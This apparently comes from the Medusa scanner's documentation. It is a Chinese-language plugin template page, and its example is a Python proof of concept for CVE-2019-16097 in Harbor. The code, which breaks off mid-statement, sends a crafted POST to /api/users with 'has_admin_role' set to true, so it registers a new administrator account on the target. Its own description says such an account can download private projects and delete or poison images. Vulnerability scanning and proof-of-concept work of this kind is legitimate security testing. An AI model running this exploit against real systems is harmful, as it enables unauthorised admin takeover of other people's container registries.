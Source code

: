 ## 插件模板

以`Harbor`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
import requests
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile,randoms
import json
requests.packages.urllib3.disable_warnings()
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        self.info = {}
        self.info['number']="CVE-2019-16097" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['create_date'] = "2020-2-19"  # 插件编辑时间
        self.info['disclosure'] = '2019-9-19'  # 漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "HarborAnyAdministratorRegistrationVulnerability"  # 插件名称
        self.info['name'] ='Harbor任意管理员注册漏洞' #漏洞名称
        self.info['affects'] = "Harbor"  # 漏洞组件
        self.info['desc_content'] = "版本中的core/api/user.go文件存在安全漏洞。若开放注册功能，攻击者可利用该漏洞创建admin账户。注册功能默认开放。攻击者可以以管理员身份下载私有项目并审计；可以删除或污染所有镜像。"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['version'] = "Harbor1.7.6之前版本\r\nHarbor1.8.3之前版本"  # 这边填漏洞影响的版本
        self.info['suggest'] = "升级最新Harbor版本"  # 修复建议
        self.info['details'] = Medusa  # 结果


def medusa(Url, RandomAgent, ProxyIp=None):
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = '/api/users'
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        headers = {
            'User-Agent': RandomAgent,
            'Accept': 'application/json',
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "application/json",
        }
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=headers, timeout=6, verify=False)
        head = resp.headers.get("Location")
        code = resp.status_code
        if code == 201 and head.find("/api/users/")!=-1:
```